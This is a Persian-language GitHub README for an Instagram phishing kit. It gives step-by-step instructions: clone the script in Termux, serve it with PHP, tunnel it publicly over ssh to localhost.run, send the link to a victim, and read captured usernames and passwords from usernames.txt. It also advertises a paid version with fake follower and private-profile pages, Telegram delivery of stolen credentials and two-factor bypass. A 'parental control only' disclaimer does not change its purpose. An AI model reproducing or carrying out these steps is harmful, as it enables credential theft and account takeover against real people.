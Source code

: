 # hack-instagram

<img src="pic1.png">
<h2>
آموزش هک اینستاگرام با ارسال لینک در ترموکس
</h2>
<h5>⚠️توجه کنید که این آموزش صرفا جهت کنترل فرزندان هست و مسئولیت و عواقب هرگونه ورود به حریم خصوصی افراد با خود شخص خواهد بود
</h5><h3>
⚙آموزش استفاده از اسکریپت:
</h3>

<h5>
ابتدا وارد ترموکس شوید:
</h5>
<h6>
اگه آموزش ترموکس رو بلد نیستید از لینک زیر آموزش رو مطالعه کنید:
< >آموزش ترموکس</a>
<br>
<br>
سپس در ترموکس با دستور زیر اسکریپت رو دانلود کنید:
<br><pre>
git clone https://github.com/tHACKGM/hack-instagram
</pre>
سپس با دستور زیر وارد پوشه اسکریپت بشید:
<br><pre>
cd hack-instagram
</pre>
<div>
سپس لوکال هاست رو با کد زیر اجرا کنید:
<pre>
php -S 127.0.0.1:3000
</pre>
و صفحه ای جدید باز کنید با دستور زیر پورت فرواردینگ رو اجرا کنید:
<pre>
ssh -R 80:127.0.0.1:3000 nokey@localhost.run
</pre>
<br>
سپس لینک ساخته شده رو به تارگت بدید ، و بعد از ارسال لینک در ترموکس توی صفحه اول این دستور رو وارد کنید تا پسورد و یوررنیمی که تارگت وارد کرده مشاهده کنید:
<pre>
cat usernames.txt
</pre>
</br>

_______________________________________

</h6>
روش دوم با استفاده از هاست و دامنه:👇
</h6>
<h6>
ابتدا اسکریپت را از لینک زیر دانلود کنید:
<br>
https://github.com/ismailkob1/hack-instagram/archive/refs/heads/main.zip
<br>
و یک هاست و دامنه تهیه کنید و فایل اسکریپت رو در اون آپلود کنید و لینک رو به تارگت بدید ، 
<br>
وقتی قربانی رمز و یورزنیمش رو در صفحه وارد کنه فایلی به نام usernames.txt در هاست شما ذخیره میشه که در اون میتونید یورزنیم و رمز اینستاگرام فرد رو مشاهده کنید.
</br>

_______________________________________

</h6>
<h4>
⭐نسخه VIP هک اینستاگرام با ارسال لینک⭐
</h4>
<h6>
نسخه رایگانی که بالا قرار دادیم کار میکنه و میتونید پسورد و یورزنیم قربانی رو هم در ترموکس دریافت کنید اما اگه قابلیت های بیشتری میخواید میتونید نسخه vip این اسکریپت رو خریداری کنید!
<br>
در نسخه vip این اسکریپت میتونید دو نوع فیک  پیج مختلف رو داشته باشید یکی به اسم افزایش فالوور و یکی دیگه به اسم نمایش پست پیج های خصوصی اینستاگرام که تصاویرشون رو میتونید مشاهده کنید:👇
<br>
<img src="pic2.png">
<br>
<img src="pic3.png">
<br>
<h5>
⭐قابلیت های نسخه vip:</h5>
<h6>
📥دریافت اطلاعات در ربات تلگرام 
<br>
📨قابلیت دور زدن تایید دومرحله ای 
<br>
📦فیک پیج افزایش فالوور با طراحی حرفه ای
<br>
📦فیک پیج نمایش پست پیج های خصوصی
<br>
<br>
🛒جهت خرید نسخه vip و اطلاعات بیشتر به ایدی تلگرامی مراجعه کنید:

<a href="https://t.me/i_kob" >T.me/i_kob</a>
<br>

